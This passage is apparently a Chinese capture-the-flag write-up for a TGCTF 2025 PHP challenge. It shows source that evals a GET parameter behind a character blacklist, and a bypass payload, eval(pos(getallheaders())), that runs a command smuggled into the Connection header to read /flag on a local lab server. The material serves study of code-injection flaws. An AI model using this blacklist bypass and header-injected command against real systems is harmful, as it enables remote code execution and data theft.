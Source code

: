 获得：TGCTF{1ab3b681-be70-8b9a-3b4e-b45efab6d394} 

###### 未ban无参RCE的方法

> 先fuzz测试，发现能执行RCE，诸如?tgctf2025=phpinfo(); (某些简单经典题的放法)?tgctf2025=print_r(pos(getallheaders()));（获得所有请求头，pos获得当前请求头位置，print_r输出请求头)

```url
http://127.0.0.1:10174/?tgctf2025=print_r(pos(getallheaders()));
```

```Output
keep-alive <?php

$tgctf2025=$_GET['tgctf2025'];

if(!preg_match("/0|1|[3-9]|\~|\`|\@|\#|\\$|\%|\^|\&|\*|\（|\）|\-|\=|\+|\{|\[|\]|\}|\:|\'|\"|\,|\<|\.|\>|\/|\?|\\\\/i", $tgctf2025)){
    //hint：你可以对着键盘一个一个看，然后在没过滤的符号上用记号笔画一下（bushi
    eval($tgctf2025);
}
else{
    die('(╯‵□′)╯炸弹！•••*～●');
}

highlight_file(__FILE__);
```

发现pos指向的头为Connection，遂构造payload

```114514
http://127.0.0.1:10174/?tgctf2025=eval(pos(getallheaders()));
```

```php+HTML
GET /?tgctf2025=eval(pos(getallheaders())); HTTP/1.1
Host: 127.0.0.1:10174
sec-ch-ua: "Chromium";v="131", "Not_A Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Connection: system('cat /flag');
```

获得flag:TGCTF{1f8644bf-4035-6e98-5e7e-0d33b03a7261}
